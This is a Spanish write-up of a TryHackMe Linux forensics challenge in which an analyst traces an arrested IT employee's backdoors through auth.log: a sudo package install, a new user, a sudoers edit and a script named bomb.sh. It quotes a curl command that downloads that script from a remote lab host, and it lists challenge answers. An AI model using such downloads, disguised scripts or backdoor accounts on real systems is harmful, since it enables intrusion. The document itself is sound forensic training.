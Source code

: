 # 🏆 Desafío Forense en Linux - Disgruntled

## 🎯 Objetivo
#### El día comenzó con una noticia inesperada: un empleado del equipo de IT de **CyberT**, uno de nuestros clientes, fue arrestado por la policía. ¿El motivo? Ejecutar una operación de *phishing* paralela mientras trabajaba para la empresa. CyberT sospecha que este usuario pudo haber dejado backdoors o configuraciones maliciosas antes de su detención, y nos pide que investiguemos cualquier rastro en sus sistemas.
---

### 1️⃣ El usuario instaló un paquete en la máquina utilizando privilegios elevados. Según los logs, ¿Cuál es el COMANDO completo?
#### Empecé inspeccionando `/var/log/auth.log`, archivo esencial que registra todos los intentos de autenticación y comandos ejecutados con `sudo`.  
#### ✅ `/usr/bin/apt install dokuwiki`
![](https://raw.githubusercontent.com/JoshKxng/SOC-Analyst-TryHackMe/refs/heads/main/imagenes/Linux%20Forensics/01.png)

---

## 2️⃣  ¿Cuál era el directorio de trabajo (PWD) cuando se ejecutó el comando anterior y qué usuario fue creado después?
#### Seguí observando `auth.log` y encontré el uso del comando `adduser`, lo cual indica la creación de un nuevo usuario.  
#### ✅ `/home/cybert`
#### ✅ `it-admin`

![](https://raw.githubusercontent.com/JoshKxng/SOC-Analyst-TryHackMe/refs/heads/main/imagenes/Linux%20Forensics/02.png)

---

## 3️⃣ Se le otorgaron privilegios de sudo a un usuario. ¿Cuándo se actualizó el archivo sudoers y qué nombre tenía el script abierto con el editor "vi"?
#### Analicé el uso de `visudo` nuevamente en `auth.log` y encontré la edición de un archivo sospechoso llamado `bomb.sh`.
#### ✅ `Dec 28 06:27:34`
#### ✅ `bomb.sh`
![](https://raw.githubusercontent.com/JoshKxng/SOC-Analyst-TryHackMe/refs/heads/main/imagenes/Linux%20Forensics/03.png)

---

## 4️⃣ ¿Cuándo fue modificado por última vez el archivo del punto anterior? 
#### Acá lo que ejecuté fue el uso del comando `cat` dentro del directorio correspondiente. Tuve que listarlos previamente para estar seguro de avanzar correctamente.
#### ✅ `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`
![](https://raw.githubusercontent.com/JoshKxng/SOC-Analyst-TryHackMe/refs/heads/main/imagenes/Linux%20Forensics/04.png)

---

## 5️⃣ El archivo se renombró y se movió a otro directorio. ¿Cuál es la ruta completa de este archivo ahora?
#### ✅ `/bin/os-update.sh`
![](https://github.com/JoshKxng/SOC-Analyst-TryHackMe/blob/main/imagenes/Linux%20Forensics/05.png)

---

## 6️⃣ ¿Cuándo se modificó por última vez el archivo de la pregunta anterior y cuál es el nombre del archivo que se creará cuando se ejecute el archivo de la primera pregunta?
![](https://raw.githubusercontent.com/JoshKxng/SOC-Analyst-TryHackMe/refs/heads/main/imagenes/Linux%20Forensics/07.png)
![](https://github.com/JoshKxng/SOC-Analyst-TryHackMe/blob/main/imagenes/Linux%20Forensics/08.png)

---

# 🎖️ Conclusión
### A medida que fui avanzando con este caso logré reconstruir cómo un atacante:

### - Instaló paquetes maliciosos con privilegios elevados.
### - Creó un nuevo usuario para mantener el acceso.
### - Editó un script que generaba archivos ocultos.
### - Automatizó su ejecución mediante tareas programadas.
